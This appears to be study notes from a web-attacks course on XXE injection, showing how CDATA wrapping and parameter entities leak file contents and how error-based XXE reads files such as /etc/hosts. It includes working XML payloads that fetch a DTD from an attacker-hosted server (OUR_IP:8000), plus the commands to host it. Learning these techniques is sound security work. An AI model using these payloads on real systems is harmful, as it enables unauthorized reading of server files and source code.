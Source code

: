 ## Advanced Exfiltration with CDATA
* We can utilize another method to extract any kind of data (including binary data) for any web application backend
* To output data that does not conform to the XML format, we can wrap the content of the external file reference with a `CDATA` tag (e.g. `<![CDATA[ FILE_CONTENT ]]>`)
* Define a `begin` internal entity with `<![CDATA[`, an `end` internal entity with `]]>`
* Then place our external entity file in between

```xml
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```

* However, `this will not work, since XML prevents joining internal and external entities`
* We can utilize `XML Parameter Entities`
* A special type of entity that starts with a `%` character and can only be used within the DTD
* If we reference them from an external source (e.g., our own server), then all of them would be considered as external and can be joined

```xml
<!ENTITY joined "%begin;%file;%end;">
```

* So, let's try to read the `submitDetails.php` file by first storing the above line in a DTD file (e.g. `xxe.dtd`), host it on our machine, and then reference it as an external entity on the target web application

```sh
$ echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

* Reference our external entity (`xxe.dtd`) and then print the `&joined;`

```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
...
<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->
```

**Note:** In some modern web servers, we may not be able to read some files (like index.php), as the web server would be preventing a DOS attack caused by file/entity self-reference (i.e., XML entity reference loop), as mentioned in the previous section.

## Error Based XXE
* Web application might not write any output
	* Cannot control any of the XML input entities to write its content
	* `Blind` to XML output
* If application displays runtime errors (e.g. PHP errors)
* If the web application neither writes XML output nor displays any errors, we would face a completely blind situation
* First try to send malformed XML data, see if errors occur
	* Delete closing tag
	* Change one of the tags (e.g. `<roo>` instead of `<root>`)
	* Reference a non-existing entity

![](web_attacks_xxe_cause_error.jpg)

* Error revealed a web server directory, which we can use to read the source code of other files
* Host a DTD file that contains the following payload

```xml
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

* We define the `file` parameter entity and then join it with an entity that does not exist
	* In this case, `%nonExistingEntity;` does not exist
	* Web application throws an error saying that this entity does not exist
	* Also prints our joined `%file;` as part of the error
* There are many other variables that can cause an error, like a bad URI or having bad characters in the referenced file
* Call our external DTD script, and then reference the `error` entity

```xml
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```

![](web_attacks_xxe_exfil_error_2.jpg)

* We can also read the source code of files by changing the DTD to  `"file:///var/www/html/submitDetails.php"`
*  `This method is not as reliable as the previous method for reading source files`, as it may have length limitations, and certain special characters may still break it